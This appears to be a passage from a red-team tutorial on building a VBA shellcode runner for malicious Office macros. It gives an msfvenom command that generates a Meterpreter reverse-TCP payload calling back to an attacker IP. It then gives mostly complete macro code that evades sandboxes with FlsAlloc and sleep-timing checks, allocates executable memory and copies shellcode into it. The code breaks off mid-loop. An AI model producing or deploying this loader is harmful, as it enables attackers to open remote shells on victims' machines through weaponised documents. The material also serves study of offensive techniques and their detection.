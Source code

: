 Shellcode runner is a piece of code that executes shellcode in memory. When building this in VBA, the typical approach is to use three Win32 APIs from Kernel32.dll: `VirtualAlloc`, `RtlMoveMemory`, and `CreateThread`. 

Using `VirtualAlloc` to allocate unmanaged memory that is writable, readable, and executable. Then copy the shellcode into the newly allocated memory with `RtlMoveMemory`, and create a new execution thread in the process through `CreateThread` to execute the shellcode.

Create a stage payload format VBA (vb)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.108.34 LPORT=443 -f vbapplication
```

### Final Code Snippets - "MyMacro"

Simple_Shellcode_Runner_VBA.vb

```vb
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal destAddr As LongPtr, ByRef sourceAddr As Any, ByVal length As Long) As LongPtr
Private Declare PtrSafe Function FlsAlloc Lib "KERNEL32" (ByVal callback As LongPtr) As LongPtr

Sub MyMacro()
    Dim allocRes As LongPtr
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
    
    ' Call FlsAlloc and verify if the result exists
    allocRes = FlsAlloc(0)
    If IsNull(allocRes) Then
        End
    End If
    
    ' Sleep for 10 seconds and verify time passed
    t1 = Now()
    Sleep (10000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 10 Then
        Exit Sub
    End If
    
    ' Output Shellcode from the "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER LPORT=443 -f vbapplication"
    buf = Array(SHELLCODE_GO_HERE)
    
    ' Allocate memory space
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    ' Move the shellcode
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
```